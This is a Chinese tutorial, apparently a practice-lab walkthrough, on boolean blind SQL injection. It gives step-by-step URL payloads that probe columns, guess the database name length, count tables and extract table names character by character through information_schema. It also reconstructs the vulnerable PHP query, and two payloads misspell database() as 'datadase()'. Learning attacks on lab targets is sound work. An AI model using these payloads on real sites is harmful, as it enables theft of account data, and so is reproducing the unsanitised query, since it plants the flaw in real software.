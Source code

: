 报错注入or盲注

盲注一般用到的一些函数：**ascii()、substr() 、length()，exists()、concat()**等





测试

```
?id=1
显示You are in...........   但没有任何数据输出
```

测试

```
?id=1'
报错了
```

再测试

```
?id=1' order by 3 --+
还是显示  You are in...........
?id=1' order by 4 --+
报错，提示超出列数
```

因此，可以推断出源代码

```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";    //sql查询语句
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
    if($row){                    //如果查询到数据
          echo 'You are in...........';
    }else{                      //如果没查询到数据
         print_r(mysql_error());    
    }
```

查询到数据时，会显示You are in ...



下面来判断数据库长度

```
?id=1' and length(datadase()) > 7 --+
显示You are in...
?id=1' and length(datadase()) > 8 --+
无显示，说明错误

由此说明数据库名长度为8
```



// 判断当前数据库中的表的个数是否大于5，用二分法依次判断，最后得知当前数据库表的个数为4

```
?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())>5 #
```



```
判断每个表的长度
//判断第一个表的长度，用二分法依次判断，最后可知当前数据库中第一个表的长度为6
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6

//判断第二个表的长度，用二分法依次判断，最后可知当前数据库中第二个表的长度为6
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=6

判断每个表的每个字符的ascii值
//判断第一个表的第一个字符的ascii值
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100 #

//判断第一个表的第二个字符的ascii值
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>100 #

.........
由此可判断出存在表 emails、referers、uagents、users ，猜测users表中最有可能存在账户和密码，所以以下判断字段和数据在 users 表中判断
```

。。。
